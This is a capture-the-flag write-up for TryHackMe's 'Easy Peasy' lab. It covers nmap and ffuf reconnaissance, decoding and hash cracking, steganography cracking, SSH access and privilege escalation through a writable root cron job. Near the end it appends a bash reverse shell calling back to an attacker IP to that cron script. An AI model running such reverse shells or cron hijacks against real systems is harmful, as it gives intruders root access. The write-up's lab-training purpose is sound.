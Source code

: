 ```yaml
---
parent: "[[CTFs - THM]]"
---
```

```bash
# PLATFORM          . THM
# CTF NAME          . Easy Peasy
# DESCRIPTION       . Practice using tools such as Nmap and GoBuster to locate a hidden directory to get initial access to a vulnerable machine. Then escalate your privileges through a vulnerable cronjob.
# DIFFICULTY        . Easy
# CTF LINK          . https://tryhackme.com/room/easypeasyctf
```

```
sudo nmap -sSVC -T5 -p- 10.10.82.34 -oN easy
```

```
PORT      STATE SERVICE VERSION
80/tcp    open  http    nginx 1.16.1
|_http-title: Welcome to nginx!
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: nginx/1.16.1

6498/tcp  open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 304a2b22acd95609f2da122057f46cd4 (RSA)
|   256 bf86c9c7b7ef8c8bb994ae0188c0854d (ECDSA)
|_  256 a172ef6c812913ef5a6c24034cfe3d0b (ED25519)

65524/tcp open  http    Apache httpd 2.4.43 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.43 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- The first 3 questions on the CTF can be answered from this output alone. NGINX version is `1.16.1`, there are `3` open ports and `apache` is running on the higher port.

- `robots.txt` on port 80 doesn't reveal anything useful in particular

```
ffuf -u http://10.10.82.34/FUZZ -w /usr/share/wordlists/dirb/common.txt
```

```
h{redacted}n                  [Status: 301, Size: 169, Words: 5, Lines: 8]
```

- Fuzzing the webserver we can find the `/hidden` directory.

- However, this doesn't help us much. Let's fuzz it one more time.

```
ffuf -u http://10.10.82.34/{redacted}/FUZZ -w /usr/share/wordlists/dirb/common.txt
```

```
w{redacted}r                [Status: 301, Size: 169, Words: 5, Lines: 8]
```

- Here, in `/w{redacted}r`, if we inspect the source code of the page, we can find a base64 encoded text: `Zm{redacted}Q==`. 

- The decoded output of this message is the first flag.

- For the next flag, we need to head to `/robots.txt` on port `65524`. 

- I tried fuzzing this one too but I couldn't find anything.

```
User-Agent:*
Disallow:/
Robots Not Allowed
User-Agent:a18{redacted}250
Allow:/
This Flag Can Enter But Only This Flag No More Exceptions
```

- We could use burp to change the user agent to be able to see the webpage, but I didn't think it's worth for now. I used `curl` instead.

```
curl http://10.10.82.34:65524 -A a186{redacted}3b250
```

- If we look carefully in the output, we can find the following:

```
<p hidden>its encoded with ba....:ObsJmP1{redacted}0Vu</p>
```

```
Fl4g 3 : flag{9fdafbd6{redacted}4cd312}
```

- Alright. The base used to encode the first message is `base62`. I used [this](https://www.dcode.fr/cipher-identifier) website to identify the encoding used. 

- After decoding the message ([here](https://www.dcode.fr/base62-encoding)), we get the next directory, `/n0t{redacted}3r`.

- In the source code we find `940d71e8655ac{redacted}7d1483e7f5fe6fd81`

- This is a `sha256` and the CTF gives us a file, `easypeasy.txt`. Let's use this wordlist to crack the hash.

- For some reason, John wasn't able to crack this using `easypeasy.txt` and I was sure I'm not doing something wrong syntax-wise. 

- I started revising my steps up until this point, thinking that maybe I've missed something. And I did, kinda.

- Along with the hash in the `/n0th{redacted}t3r` directory there was a local image this time (the others were sourced to the site using their URL)

- I used `wget` to download the `binarycodepixabay.jpg`. `binwalk` did not reveal anything and the output of `strings` made me skeptical, so I ran `steghide --extract -sf` and I got `steghide: could not extract any data with that passphrase!`

- My next move was `stegcrack`.

```
stegcracker binarycodepixabay.jpg easypeasy.txt 
```

- The password to extract the content from the file is `myp[redacted]ob` and the content of the file is

```
username:boring
password: 0110{redacted}1
```

- Let's SSH to the box.

- User flag is in `/home/boring/user.txt` but

```
boring@kral4-PC:~$ cat user.txt 
User Flag But It Seems Wrong Like It`s Rotated Or Something
synt{a0j{REDACTED}4y}
```

- P.S: ROT13 was used to rotate this. 

- Privilege escalation is rather simple.

```
cat /etc/crontab 

* *    * * *   root    cd /var/www/ && sudo bash .mysecretcronjob.sh
```

```
cat .mysecretcronjob.sh 

#!/bin/bash
# i will run as root
```

```
ls -l /var/www

-rwxr-xr-x  1 boring boring   33 Jun 14  2020 .mysecretcronjob.sh
```

- As you can see, the `.mysecretcronjob.sh` is called as `root` via `crontab`. However, the bash script is owned by us, and thus, can be modified to whatever we like.

```
echo "sh -i >& /dev/tcp/10.11.53.46/3132 0>&1" >> .mysecretcronjob.sh
```

- This will append a simple bash reverse shell to the script.

- Shortly after, our listener will receive a connection as root.

- The root flag is in `/root/.root.txt

- Now, we're mising the `flag-2`... which.. damn :) I realised that the user agent found in `/robots.txt` on `port 65524` is not just a random value, it's actually a `MD5 hash`. 

- Crack it to get the flag :) [This](https://md5hashing.net/) should do the job.

